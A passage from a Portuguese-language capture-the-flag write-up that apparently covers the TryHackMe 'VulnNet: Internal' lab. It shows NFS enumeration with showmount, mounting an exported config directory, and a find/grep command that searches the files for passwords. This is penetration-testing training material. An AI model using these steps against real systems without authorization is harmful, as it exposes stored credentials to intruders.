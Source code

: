 ### Primeira Flag
![alt text](/assets/img/internal/internal1.png)

### nfs porta 2049
Listando e montando nfs
```shell

╭─      ~/thm/vulnNetinternal           
╰─ showmount -e 10.10.141.166                                                         
Export list for 10.10.141.166:
/opt/conf *

╰─ sudo mount -t nfs 10.10.141.166: tmp
╭─      ~/thm/vulnNetinternal                         
╰─ tree tmp 
tmp
└── opt
    └── conf
        ├── hp
        │   └── hplip.conf
        ├── init
        │   ├── anacron.conf
        │   ├── lightdm.conf
        │   └── whoopsie.conf
        ├── opt
        ├── profile.d
        │   ├── bash_completion.sh
        │   ├── cedilla-portuguese.sh
        │   ├── input-method-config.sh
        │   └── vte-2.91.sh
        ├── redis
        │   └── redis.conf
        ├── vim
        │   ├── vimrc
        │   └── vimrc.tiny
        └── wildmidi
            └── wildmidi.cfg

10 directories, 12 files
```
{: .nolineno }
Pesquisando por palavra pass nos arquivos  
`find tmp -type f -exec grep -H 'pass' {} +`  